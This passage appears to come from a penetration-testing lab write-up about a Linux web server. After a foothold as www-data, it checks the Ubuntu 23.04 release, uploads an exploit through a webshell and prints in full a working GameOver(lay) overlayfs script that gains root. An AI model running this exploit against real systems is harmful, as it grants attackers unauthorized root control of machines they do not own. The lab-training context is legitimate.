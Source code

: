 > -m 3200: Mode 3200 | bcrypt Blowflish (Unix) -a 0 : dictionary mode (0)

### Exploit OS vulnerability

```bash
www-data@webserver:/etc/apache2$ cat /etc/os-release`
cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo
```

CVE-2023-2640-CVE-2023-32629 https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

Upload the exploit shell file using the webshell and sweet UPLOAD feature:

<figure><img src="../../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

I need to modify the name of /var/tmp/bash file created by exploit due to other users that are running on the same machine and using the same exploit:

```bash
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/mybash && chmod 4755 /var/tmp/mybash && /var/tmp/mybash -p && rm -rf l m u w /var/tmp/mybash")'
```